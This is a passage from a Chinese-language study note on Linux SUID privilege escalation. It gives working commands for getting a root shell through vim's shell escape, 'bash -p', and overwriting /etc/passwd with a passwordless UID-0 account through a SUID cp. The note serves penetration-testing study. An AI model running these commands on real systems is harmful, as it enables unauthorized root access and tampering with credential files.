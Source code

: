 ### 3.3 vi/vim

进入vim模式执行以下命令

```shell
:set shell=/bin/sh
:shell
```

![image-20210627134106867](suid提权学习/image-20210627134106867.png)

若有sudo权限则可执行`sudo vim -c '!sh'`直接提权

### 3.4 bash

```
bash -p
```

![image-20210627134208588](suid提权学习/image-20210627134208588.png)

### 3.5 cp

跟高版本nmap提权方法类似，覆盖 `/etc/shadow` 或 `/etc/passwd`

```shell
$ cat /etc/passwd >passwd
$ echo 'root3::0:0::/root:/bin/bash' >>passwd
$ cp passwd /etc/passwd  
$ su root3 
```

![image-20210627142406117](suid提权学习/image-20210627142406117.png)
